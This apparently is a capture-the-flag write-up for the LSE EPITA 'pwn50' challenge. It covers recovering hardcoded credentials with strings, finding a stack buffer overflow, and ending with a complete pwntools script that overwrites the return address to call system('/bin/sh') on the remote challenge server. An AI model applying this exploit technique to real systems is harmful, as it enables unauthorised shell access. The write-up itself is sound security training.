 LSE Challenge Link: https://ctf.lse.epita.fr/ex/55/ (a copy is in the current repository as well)

This challenge was part of the online wargame linked above and  was relatively easy to complete but provided a good review of the fundamentals. 

To start off we check the file headers on the binary,

![header](pics/header.PNG)

We can see that the file isn't stripped which makes this challenge less cumbersome. 
Next we check the properties of the binary. 

![rabin2](pics/rabin2.PNG)

Hmm, no ALSR but can't really tell much from here. Let's run the binary to see what this challenge is about.

![password](pics/password.PNG)

Ah we need a username, well before we dive into the assembly, lets see if we can get the username and password
an easier way. By running strings. 

![strings](pics/strings.PNG)

Huh, admin and T6OBSh2i look interesting. Let's try those.

![login](pics/login.PNG)

Great we are in. Lets see what this binary can do.

![choice1](pics/choice1.PNG)

![choice2](pics/choice2.PNG)

Hmmmm, seems like we can't execute commands. Time to dive into the binary. 
Running radare2 on the binary we can see some interesting functions

![afl](pics/afl.PNG)

Lets check out the execcmd function.

![r2execcmd](pics/r2execcmd.PNG)

Huh, interesting. There doesn't seem to be a way of running systems, dword[local_4h] is set to 0 at the beginning of the 
function and there isn't a way to change it. Seems like we need to find another way in. Since this challenge is only 50 points, let's try some common vunerablities. Let's enter a lot of characters for the read function. 

![overflow](pics/overflow.PNG)

This looks promising. It places our large input on the stack and you can see that it overwrites RSP and RBP as well as RSI.
Let's try exiting the program to see what happens, since the return value is on the stack when we exit it should segfault. 

![segfault](pics/segfault.PNG)

Ah, just as we thought it segfaulted. Now we have the ability to execute code. To get the flag we need the return function
to jump to the system function call and get us a shell. Well, we can find the address of system in gdb and use that address 
appended onto an offset to jump to the system call. 

Here is the system call

![system](pics/system.PNG)

And here is the size of the buffer

![buffer](pics/buffer.PNG)

And it looks like the offset should be around 0x50 which is around 80 characters, adding 4 for ebp and 4 for esp, it should be
an offset of 88. But wait, we need to remember that the system call takes a string arguement to run when called. We need to set up the system stack with our shell command, in this case /bin/sh, so that when we call it that command will run. 

This leads to the following python code

```python
#LSE Pwn50 

from pwn import *

#p = process ('./pwn50')

p = remote('ctf.lse.epita.fr',52190)

p.recv()
p.sendline('admin')

p.recv()
p.sendline('T6OBSh2i')

p.recv()
p.sendline('1')

p.recv()
p.sendline('/bin/sh')

p.recv()
p.sendline("A"*88 + p64(0x0040084f))

p.recv()
p.sendline('3')

p.interactive()

```

Hope this was informative






